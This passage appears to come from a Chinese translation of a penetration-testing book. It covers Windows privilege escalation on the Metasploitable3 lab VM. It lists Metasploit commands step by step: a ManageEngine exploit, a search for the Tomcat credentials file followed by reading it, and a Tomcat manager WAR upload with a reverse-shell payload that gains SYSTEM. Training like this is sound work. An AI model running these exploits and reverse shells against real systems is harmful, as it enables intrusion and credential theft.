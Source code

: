 如果我们处在一个已经打好所有补丁的 Windows 主机环境中，我们将重点关注第三方软件中的不同权限提升漏洞或操作系统的任何 0day 漏洞。例如，我们一直在寻找下面这样的漏洞 http://bit.ly/2HnX5id ，这是 Windows 中的权限升级漏洞，现在还没有修补。通常在这些场景中，可能会有一些基本的 POC 代码，但是我们需要测试、验证并多次复现这个漏洞。我们经常监控某些领域存在公共特权升级的漏洞：
- http://insecure.org/search.html?q=privilege%20escalation
- https://bugs.chromium.org/p/project-zero/issues/list?can=1&q=escalation&colspec=ID+Type+Status+Priority+Milestone+Owner+Summary&cells=ids

通常，这只是时间问题。例如，当发现漏洞时，这可能是你在系统打好补丁之前进一步破坏系统有限的好机会。

### 权限提升实验

测试并尝试不同类型的权限升级漏洞的最佳实验环境是 Rapid7的 [Metasploitable3](https://github.com/rapid7/metasploitable3)。这个充满漏洞的框架会自动生成一个 Windows 虚拟机，其中包含所有常见的和不常见的漏洞。配置需要一点时间，但是一旦配置好了虚拟机，它就是一个非常棒的实验环境。

让我们来看一个简单的例子，然后快速开始：
- 使用 nmap 扫描 Metasploitable3 虚拟机的IP ( 确保全端口扫描免得你错过一些端口 ) 
- 你将看到 ManageEngine 在端口8383上运行
- 启动 Metasploit 并搜索任何 ManageEngine 有关的漏洞
  - msfconsole
  - search manageengine
  - use exploit/windows/http/manageengine_connectionid_write
  - set SSL True
  - set RPORT 8383
  - set RHOST < Your IP>
  - exploit
  - getsystem
- 你会注意到你不能获得 `system` 权限，因为你所利用的服务未作为特权进程运行。这时，你能做到的就是尝试所有不同的权限提升攻击。
- 其中，我们看到的一件事是，Apache Tomcat 是作为特权进程运行的。如果我们可以利用这个服务，我们就可以将我们的 payload 作为更高层次的服务运行。我们看到 Apache Tomcat 在外部网络的8282端口运行，但它需要用户名和密码。因为我们有一个本地低权限的 shell，我们可以尝试在磁盘上搜索这个密码。我们可以在谷歌搜索“Tomcat密码存储在哪里”，搜索结果表明：“tomcat-users.xml”。
- 在受害者机器中，我们可以搜索和读取 tomcat-users.xml 文件:
  - shell
  - cd \ && dir /s tomcat-users.xml
  - type “C:\Program Files\Apache Software Foundation\tomcat\apache-tomcat-8.0.33\conf\tomcat-users.xml
- 现在让我们使用找到的密码攻击 Tomcat。首先，登录到8282端口上的 Tomcat 管理控制台，并查看我们的密码是否有效。然后，我们可以使用 Metasploit 通过 Tomcat 部署恶意的 WAR 文件。
  - search tomcat
  - use exploit/multi/http/tomcat_mgr_upload
  - show options
  - set HTTPusername sploit
  - set HTTPpassword sploit
  - set RPORT 8282
  - set RHOST < Metasploitable3_IP>
  - set Payload java/shell_reverse_tcp
  - set LHOST < Your IP>
  - exploit
  - whoami
- 你现在应该是 `system` 权限了。我们利用第三方的工具（tomcat）来提升权限到 `system` 权限。

### 从内存中提取明文凭据
